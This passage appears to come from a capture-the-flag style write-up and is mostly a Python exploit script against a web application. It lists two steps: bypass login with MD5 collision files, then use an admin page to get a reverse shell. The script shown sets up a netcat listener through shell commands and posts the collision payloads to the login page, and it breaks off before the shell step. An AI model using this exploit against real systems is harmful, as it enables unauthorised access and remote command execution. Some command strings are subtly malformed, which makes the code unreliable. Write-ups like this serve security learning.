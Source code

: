 Summarising, in order to exploit the application, we'll undertake the following steps:

1. Bypass authentication using a md5 collision
2. Use the "webshell-like" admin page to get a reverse shell

The completed exploit:

```python
#!/usr/bin/python3

import requests
import argparse
import sys
import urllib.parse
from requests.packages.urllib3.exceptions import InsecureRequestWarning
import subprocess
import os, sys, re
import binascii
import string, hashlib, time

def proxy(flag):
    return {"http" : "http://127.0.0.1:8080", "https" : "http://127.0.0.1:8080"} if flag else None

def geturl(target=None, type=None):
    if type == "login":
        return "http://" + target + "/d5fa314e8577e3a7b8534a014b4dcb221de823ad/index.php"
    elif type == "admin":
        return "http://" + target + "/d5fa314e8577e3a7b8534a014b4dcb221de823ad/admin.php"
    else:
        return None
        
def setup_listener(lport):
    print("[+] Setting up listener")
    try:
        if os.name == "nt":
            subprocess.Popen("start cmd /c nc.exe -lvp " + lport, shell=True)
        else:
            subprocess.Popen("gnome-terminal -- nc -lvkkp" + lport + "2>/dev/null", shell=True)
        time.sleep(1)
    except:
        print("[-] Could not setup listener")
        return False
    finally:
        return True
        
def md5_collisions():
    try:    
        with open("f1", "rb") as f1, open("f2", "rb") as f2, open("f3", "rb") as f3:
            try:
                return (urllib.parse.quote(f1.read()), urllib.parse.quote(f2.read()), urllib.parse.quote(f3.read()))
            except:
                print("[-] Cannot encode collisions files")
                sys.exit()
    except:
        print("[-] Cannot find md5 collisions files: f1, f2, f3")
        sys.exit()
        
def login(target, proxy):
    url = geturl(target,"login")
    username, password, code = md5_collisions()
    headers= { "Content-Type" : "application/x-www-form-urlencoded"}
    data = "username={}&password={}&code={}&login=Login".format( username, password, code)
    res = requests.post(url, headers=headers, data=data, proxies=proxy, allow_redirects=False, verify=False)
```
